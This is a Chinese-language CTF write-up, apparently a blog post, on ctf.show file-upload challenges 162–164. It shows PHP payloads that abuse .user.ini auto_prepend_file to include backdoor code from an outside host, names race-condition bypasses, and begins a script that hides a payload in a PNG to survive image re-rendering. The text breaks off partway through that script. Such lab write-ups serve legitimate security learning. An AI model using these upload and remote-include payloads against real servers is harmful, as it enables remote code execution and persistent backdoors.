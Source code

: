 ![1645502735759-1c60a771-0454-47e3-bcae-40e8890226f4.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958783-2129651462.png)

```plain
相当于：
.user.ini auto_prepend_file=png，包含了png
png 里面包含远程文件，index.txt里面含有后门代码
构造png上传内容：png <?=include'http://794750069/'>
```

![1645502923401-6b9ecb4b-c62b-4556-bca7-31412ba58e1c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170957466-1635091894.png)

```plain
然后访问upload，查看flag就可以。但是一直错误，应该是环境问题。
```

163

```plain
先上传.user.ini：auto_prepend_file=png
然后上传png：<?=include'http://794750069/'>
发现png上传成功，但是访问404，已经被删除了

绕过：
1.可以用条件竞争，在没有删除之前就访问
2.写创建性代码，访问让他创建一个新的后门文件
3.直接在.user.ini文件包含远程文件

上传地址：upload/png
没上传之前就一直访问upload/png post：代码（利用PHP创建一个后门文件）
过滤 . () {} ;等 同时文件被删除
直接利用.user.ini包含远程
auto_prepend_file=http://794750069/
```

![1645504136296-f1465270-d2e9-4d72-820e-a4e459f5052d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958624-733822051.png)

```plain
访问upload
```

![1645504210490-2b88820b-cdc9-4ca3-b8a7-d9af949ecefb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170958948-1332000615.png)

164

```plain
上传一个正常的图片，可以查看，但是地址跟之前不一样，
图片地址：http://c3ca6405-8f2e-4f35-a6ca-e90c23043ec4.challenge.ctf.show/download.php?image=1142da4a83749d95534cc71f2b39ade4.png
处理图片是download.php，在图片中只要有后门代码就可以进行执行
把图片下载下来，对比上传之前跟上传之后的图片大小，字节数，编码等。
```

![1645508788935-91a8f28f-ec65-4ca4-8628-8a06526a04d1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171000972-1026063123.png)

```plain
一样的图片，上传和没上传不一样了。这就是图片的二次渲染：https://blog.csdn.net/qq_40800734/article/details/105920149
对原图片进行增加，删除或者修改。就比如：在图片上写上后门代码，但是上传之后，经过图片的二次渲染，图片里面的后门代码就可以进行了删除。
如果是手工的话，就需要放后门代码上写上重复区域，就是没有删除（上传之后没有删除）代码里。但是手动能不能行还是要靠运气的。
用工具来进行生成：
代码：
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
```